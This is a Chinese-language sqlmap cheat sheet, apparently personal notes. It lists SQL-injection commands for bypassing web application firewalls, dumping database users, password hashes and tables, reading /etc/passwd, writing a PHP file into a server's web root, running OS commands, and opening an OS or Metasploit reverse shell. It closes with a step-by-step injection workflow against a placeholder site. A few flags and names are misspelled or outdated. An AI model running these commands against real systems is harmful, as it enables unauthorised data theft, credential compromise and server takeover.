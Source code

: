 # sqlmap--查看

POST登录框注入：
[sqlmap.py](http://sqlmap.py/) -r 从文件读取数据 -p 指定的参数 --tables
[sqlmap.py](http://sqlmap.py/) -u 登录的地址 --forms 自动判断注入
[sqlmap.py](http://sqlmap.py/) -u 登录的地址 --data "指定参数"

绕过waf防火墙：[sqlmap.py](http://sqlmap.py/) -u 注入点 -v 3 --dbs --batch --tamper [space2morehash.py](http://space2morehash.py/),[space2hash.py](http://space2hash.py/),[base64encode.py](http://base64encode.py/),[charencode.py](http://charencode.py/)

-u #注入点
-g 谷歌搜索
-f #指纹判别数据库类型
-b #获取数据库版本信息
-p #指定可测试的参数(?page=1&id=2 -p “page,id”)
-D “” #指定数据库名
-T “” #指定表名
-C “” #指定字段
-s “” #保存注入过程到一个文件,还可中断，下次恢复在注入(保存：-s “xx.log”　　恢复:-s “xx.log” –resume)
–columns #列出字段
–current-user #获取当前用户名称
–current-db #获取当前数据库名称
–users #列数据库所有用户
–passwords #数据库用户所有密码
–privileges #查看用户权限(–privileges -U root)
-U #指定数据库用户
–dbs #列出所有数据库
–tables -D “” #列出指定数据库中的表
–columns -T “user” -D “mysql” #列出mysql数据库中的user表的所有字段
–dump-all #列出所有数据库所有表
–exclude-sysdbs #只列出用户自己新建的数据库和表
–dump -T “” -D “” -C “” #列出指定数据库的表的字段的数据(–dump -T users -D master -C surname)
–dump -T “” -D “” –start 2 –top 4 # 列出指定数据库的表的2-4字段的数据
–dbms #指定数据库(MySQL,Oracle,PostgreSQL,Microsoft SQL Server,Microsoft Access,SQLite,Firebird,Sybase,SAP MaxDB)
–os #指定系统(Linux,Windows)
--sql -shell 写shell
--delay 延迟的时间
--safe-freq 次数
-v #详细的等级(0-6)：
0：只显示Python的回溯，错误和关键消息。
1：显示信息和警告消息。
2：显示调试消息。
3：有效载荷注入。
4：显示HTTP请求。
5：显示HTTP响应头。
6：显示HTTP响应页面的内容

–privileges #查看权限
–is-dba #是否是数据库管理员
–roles #枚举数据库用户角色
–udf-inject #导入用户自定义函数（获取系统权限）
–union-check #是否支持union 注入
–union-cols #union 查询表记录
–union-test #union 语句测试
–union-use #采用union 注入
–union-tech orderby #union配合order by
–method “POST” –data “” #POST方式提交数据(–method “POST” –data “page=1&id=2″)
–cookie “用;号分开” #cookie注入(–cookies=”PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low”)
–referer “” #使用referer欺骗(–referer “[http://www.baidu.com](http://www.baidu.com/)”)
–user-agent “” #自定义user-agent
–proxy “[http://127.0.0.1:8118](http://127.0.0.1:8118/)″ #代理注入
–string “” #指定关键词
–threads 　　 #采用多线程(–threads 3)
–sql-shell #执行指定sql命令
–sql-query #执行指定的sql语句(–sql-query “SELECT password FROM mysql.user WHERE user = ‘root’ LIMIT 0, 1″ )
–file-read #读取指定文件
–file-write #写入本地文件(–file-write /test/test.txt –file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt)
–file-dest #要写入的文件绝对路径
–os-cmd=id #执行系统命令
–os-shell #系统交互shell
–os-pwn #反弹shell(–os-pwn –msf-path=/opt/framework/msf3/)
–msf-path= #matesploit绝对路径(–msf-path=/opt/framework/msf3/)
–os-smbrelay #
–os-bof #
–reg-read #读取win系统注册表
–priv-esc #
–time-sec= #延迟设置 默认–time-sec=5 为5秒
-p “user-agent” –user-agent “sqlmap/0.7rc1 ([http://sqlmap.sourceforge.net](http://sqlmap.sourceforge.net/))” #指定user-agent注入
–eta #盲注
/pentest/database/sqlmap/txt/
common-columns.txt　　字段字典
common-outputs.txt
common-tables.txt 表字典
keywords.txt
oracle-default-passwords.txt
user-agents.txt
wordlist.txt

Sqlmap常用命令：
1)判断当前用户是否是dba
python [sqlmap.py](http://sqlmap.py/) -u "url" --is-dba -v 1
2)--users:列出数据库管理系统用户
python [sqlmap.py](http://sqlmap.py/) -u "url" --users -v 0
3)--passwords:数据库用户密码(hash)
python [sqlmap.py](http://sqlmap.py/) -u "url" --passwords -v 0
python [sqlmap.py](http://sqlmap.py/) -u "url" --passwords -U sa -v 0
4)查看用户权限
python [sqlmap.py](http://sqlmap.py/) -u "url" --privileges -v 0
python [sqlmap.py](http://sqlmap.py/) -u "url" --privileges -U postgres -v 0
5)--dbs可以利用的数据库
python [sqlmap.py](http://sqlmap.py/) -u "url" --dbs -v 0
6)--tables列数据库表
python [sqlmap.py](http://sqlmap.py/) -u "url" --tables -D "information_scheam"
-D：指定数据库名
7)--columns 列出表中的列名
python [sqlmap.py](http://sqlmap.py/) -u "url" --columns -T "user" -D "mysql" -v 1
-T:指定表名，-D:指定库名
8)--dump列表中指定列的内容
python [sqlmap.py](http://sqlmap.py/) -u "url" --dump -T "users" -D "testdb"
-C:可以指定字段
指定列的范围为2到4
python [sqlmap.py](http://sqlmap.py/) -u "url" --dump -T "users" -D "testdb" --start 2 --stop 4 -v 0
9)--dumap-all列出所有数据库，所有表内容
python [sqlmap.py](http://sqlmap.py/) -u "url" --dump-all -v 0
只列出用户自己新建的数据库和表的内容
python [sqlmap.py](http://sqlmap.py/) -u "url" --dump-all --exclude-sysdbs -v 0
10)--file读取文件内容[load_file()函数]
python [sqlmap.py](http://sqlmap.py/) -u "url" --file /etc/password
11)执行SQL
python [sqlmap.py](http://sqlmap.py/) -u "url" --sql-shell
12)-p 指定参数
python [sqlmap.py](http://sqlmap.py/) -u "url" -v 1 -p "id"
-p可以指定多参数-p "cat,id"
13)POST提交
python [sqlmap.py](http://sqlmap.py/) -u "url" --method POST --data "id=1"
14)COOKIE提交
python [sqlmap.py](http://sqlmap.py/) -u "url" --cookie "id=1" -v 1
cookie值可以由TamperData抓取
15)refer欺骗
python [sqlmap.py](http://sqlmap.py/) -u "url" --refer "url" -v 3
16)使用自定义user-agent或者user-agents.txt
python [sqlmap.py](http://sqlmap.py/) -u "url" --user-agent "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)" -v 3
python [sqlmap.py](http://sqlmap.py/) -u "url" -v 1 -a "./txt/user-agents.txt"
17)使用多线程猜解
python [sqlmap.py](http://sqlmap.py/) -u "url" -v 1 --current-user --threads 3
18)指定数据库，绕过SQLMAP的自动检测
python [sqlmap.py](http://sqlmap.py/) -u "url" -v 2 --dbms "PostgreSQL"
19)指定操作系统绕过SQLMAP自动检测
python [sqlmap.py](http://sqlmap.py/) -u "url" -v 2 --os "Windows"
20)--prefix and --postfix自定义payload
python [sqlmap.py](http://sqlmap.py/) -u "url" -v 3 -p "id" --prefix "'" --postfix "and 'test'='test"
21)union注入测试
python [sqlmap.py](http://sqlmap.py/) -u "url" --union-test -v -1
22)配合order by
python [sqlmap.py](http://sqlmap.py/) -u "url" --union-test --union-tech orderby -v 1
23)python [sqlmap.py](http://sqlmap.py/) -u "url" -v 1 --union-use --banner
24)python [sqlmap.py](http://sqlmap.py/) -u "url" -v 5 --union-use --current-user
25)python [sqlmap.py](http://sqlmap.py/) -u "url" -v 1 --union-use --dbs

简单的注入流程
1.读取数据库版本，当前用户，当前数据库
sqlmap -u http://www.xxxxxx.com/ test.php?p=2 -f -b –current-user –current-db -v 1
2.判断当前数据库用户权限
sqlmap -u http://www.xxxxxx.com/ test.php?p=2 –privileges -U 用户名 -v 1
sqlmap -u http://www.xxxxxx.com/ test.php?p=2 –is-dba -U 用户名 -v 1
3.读取所有数据库用户或指定数据库用户的密码
sqlmap -u http://www.xxxxxx.com/ test.php?p=2 –users –passwords -v 2
sqlmap -u http://www.xxxxxx.com/ test.php?p=2 –passwords -U root -v 2
4.获取所有数据库
sqlmap -u http://www.xxxxxx.com/ test.php?p=2 –dbs -v 2
5.获取指定数据库中的所有表
sqlmap -u http://www.xxxxxx.com/ test.php?p=2 –tables -D mysql -v 2
6.获取指定数据库名中指定表的字段
sqlmap -u http://www.xxxxxx.com/ test.php?p=2 –columns -D mysql -T users -v 2
7.获取指定数据库名中指定表中指定字段的数据
sqlmap -u http://www.xxxxxx.com/ test.php?p=2 –dump -D mysql -T users -C “username,password” -s “sqlnmapdb.log” -v 2
8.file-read读取web文件
sqlmap -u http://www.xxxxxx.com/ test.php?p=2 –file-read “/etc/passwd” -v 2
9.file-write写入文件到web
sqlmap -u http://www.xxxxxx.com/ test.php?p=2 –file-write /localhost/mm.php –file-dest
将本地的test.txt写入到站点服务器的html目录下
[sqlmap.py](http://sqlmap.py/) -u "http://www.xxxxxx.com/sql-injection.php?id=1" –file-write /test/test.txt –file-dest /var/www/html/1.txt